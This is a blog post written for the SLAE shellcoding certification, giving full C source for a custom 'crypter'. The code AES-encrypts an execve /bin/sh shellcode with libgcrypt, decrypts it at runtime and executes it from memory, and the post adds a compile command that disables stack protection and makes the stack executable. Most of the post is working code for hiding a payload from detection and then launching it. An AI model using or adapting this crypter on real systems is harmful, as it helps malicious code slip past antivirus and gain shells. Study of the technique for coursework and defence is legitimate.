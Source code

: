 ```yaml
---
comments: true
date: 2014-05-12
layout: post
title: 'SLAE Assignment 7: Custom Crypter'
subtitle: 'This is the last assignment for the SLAE'
---
```


This is the last assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

	
  1. Create a custom crypter like the one shown in "crypters" video

  2. Free to use any existing encryption schema
	
  3. Can use any programming language

I chose to use C and libgcrypt for this task.

Here is the source code for the encryption and decryption:

{% highlight c %}
//Description:	Assignment #7 (PoC of Crypter using AES-256)
//Author:		Paolo Stivanin <https://github.com/paolostivanin>
//SLAE ID:		526

#include <stdio.h>
#include <string.h>
#include <gcrypt.h>
#include <stdint.h>

#define ENC 1

static void crypt(int, size_t, uint8_t *);

uint8_t origShell[] = "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68";

#if !ENC
	uint8_t encShell[] = "";
#endif

uint8_t iv[] = {0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x01,0x02,0x03,0x04};
uint8_t ctr[] = {0x02,0x04,0x01,0x01,0x02,0x09,0xf1,0xc2,0x03,0x01,0x02,0xdd,0xec,0x02,0x03,0x04};
const char *key = "securitytubeSLAE";

int
main (void)
{
	int i, ag = gcry_cipher_map_name("aes256");
	size_t ln = strlen(origShell);
	uint8_t *buf = malloc(ln);

	crypt(ag, ln, buf);
	#if ENC
		for(i=0; i<ln; i++){
			printf("\\x%02x", buf[i]);
		}
		printf("\n");
	#else
		int (*ret)() = (int(*)())buf;
		ret();
	#endif

	free(buf);

	return 0;
}

static void
crypt(  int algo,
		size_t len,
		uint8_t *buf)
{
	gcry_cipher_hd_t hd;
	gcry_cipher_open(&hd, algo, GCRY_CIPHER_MODE_CTR, 0);
	gcry_cipher_setkey(hd, key, 16);
	gcry_cipher_setiv(hd, iv, 16);
	gcry_cipher_setctr(hd, ctr, 16);
	#if ENC
		gcry_cipher_encrypt(hd, buf, len, origShell, len);
	#else
		gcry_cipher_decrypt(hd, buf, len, encShell, len);
	#endif
	gcry_cipher_close(hd);
}
{% endhighlight %}

I chose to use AES-256 to encrypt the shellcode (origShell , it contains the shellcode execve(/bin/sh, NULL, NULL) ). You can customize the encryption data by changing the iv , ctr  and key .

If you want to decrypt and run the shellcode you only need to change `#define ENC 1`  to `#define ENC 0` and then write the encrypted shellcode inside encShell .

To compile the above source I used this command:

```
gcc PoC_Crypter.c -o crypter -lgcrypt -fno-stack-protector -z execstack
```

This is all for this assignment and also for the SLAE certification. It was very interesting and funny to dive into the art of shellcoding and reversing, I enjoyed a lot this course, thanks SecurityTube :-)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

**Student ID: SLAE-526**

